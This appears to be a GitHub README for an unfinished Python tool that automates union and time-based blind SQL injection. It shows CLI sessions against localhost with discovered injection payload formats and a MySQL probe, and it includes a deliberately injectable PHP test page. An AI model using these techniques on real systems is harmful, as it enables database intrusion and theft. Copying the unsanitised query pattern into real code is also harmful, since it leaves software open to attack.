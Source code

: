 This is a work in progress.

Features
========

* automatic blind / union sql injection configuration 
* use cache to reduce traffic and allow offline replays
* CLI with some SQL-like commands

TODO 
====

* robust blind injections calibration
* refactorize SQL generation 

Example usage
=============

Typical union injection
-----------------------


    $ python proto2.py
    WARNING - No proxy
    > set url_format http://localhost/www.tmp/sql.php?i=%s
    localhost> configure
    INFO - Sucessfully configured
    INFO - Config union_injection_format = '0 UNION (%s) #'
    INFO - Config column_index = 0
    INFO - Config columns = 19
    localhost> help
    ...

Blind (time based) SQL injections
--------------------

    $ python proto2.py --url http://127.0.0.1/www.tmp/sql.php?i=%s --no-proxy --proxy "" --mode blind
    WARNING - No proxy
    127.0.0.1> configure
    INFO - Launching autoconfiguration
    WARNING - Disabling cache and setting random urls
    WARNING - No proxy
    INFO - Checking injections
    INFO - Injection found
    INFO - Mean: 0.006, dev: 0.050
    INFO - Calibrating
    INFO - Fine tuning
    INFO - High: 1.000
    INFO - Optimizing timing
    INFO - Sucessfully configured
    INFO - Config blind_injection_format = '1 AND (%s)'
    INFO - Config blind_sleep_format = '%s AND SLEEP(%.2f)'
    INFO - Config blind_time_sleep = 0.005859375
    INFO - Config blind_time_low = 0.0055620670318603516
    INFO - Config blind_time_high = 0.060056871838039823
    INFO - Config blind_time_confidence = 0.050000000000000003
    127.0.0.1> probe
    INFO - MySQL Version: ['5.0.67-1-log']
    INFO - MySQL user: ['test@localhost']

Misc
----

sql.php 

    <?
    if ($_SERVER['REMOTE_ADDR']!="127.0.0.1") die("");
    if ($_GET['rand']) echo rand();
    mysql_connect("localhost", "test");
    $i = $_GET['i'];
    if ((int)$i<100) {
	    //$query = "select * from information_schema.columns limit $i,1";
	    $query = "select * from information_schema.columns where  ordinal_position = $i";
	    file_put_contents("/tmp/queries", "$query\n", FILE_APPEND);
	    #echo "<pre>$query</pre>";
	    $result = mysql_query($query) or die("error");
	    echo "<h1>Results:</h1>";
	    while($row = mysql_fetch_array($result)){
		    echo "<p>$row[0]:$row[1]</p>";
	    }
    }
    ?>
